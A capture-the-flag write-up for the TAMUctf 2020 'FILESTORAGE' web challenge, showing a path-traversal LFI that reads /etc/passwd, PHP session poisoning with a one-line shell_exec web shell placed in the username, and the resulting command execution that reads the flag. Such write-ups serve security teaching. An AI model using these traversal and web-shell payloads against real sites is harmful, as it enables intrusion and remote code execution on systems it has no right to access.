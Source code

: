# FILESTORAGE Writeup

### TAMUctf 2020 - Web 122

> Try out my new file sharing site!
>
> http://filestorage.tamuctf.com

#### LFI

I notice file path can be controlled by user. Check LFI by trying to read `/etc/passwd`.

- `http://filestorage.tamuctf.com/index.php?file=../../../../../etc/passwd`

```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin
```

LFI triggered.

#### php session poisoning

Check the cookie and get `PHPSESSID`. Session exist at `sess_{PHPSESSID}`. The service is maintained by using session. From [https://github.com/w181496/Web-CTF-Cheatsheet#php-session](https://github.com/w181496/Web-CTF-Cheatsheet#php-session). To trigger php session poisoning, I need to find where the session file exists. Guessing!

- `http://filestorage.tamuctf.com/index.php?file=../../../../../tmp/sess_5lpmadkrnrft9a18hbbrshrond`

Find where session is located by using LFI. Set user name as `<?php echo shell_exec($_GET["command"]); ?>`. Use LFI to access session file and trigger session poisoning.

#### RCE

Set GET paramter `command` to get RCE. Access session file to get command output. Guess where flag is.

- `http://filestorage.tamuctf.com/index.php?file=../../../../../tmp/sess_5lpmadkrnrft9a18hbbrshrond&command=cat%20../../../../flag_is_here/flag.txt`

I read flag:

```
gigem{535510n_f1l3_p0150n1n6}
```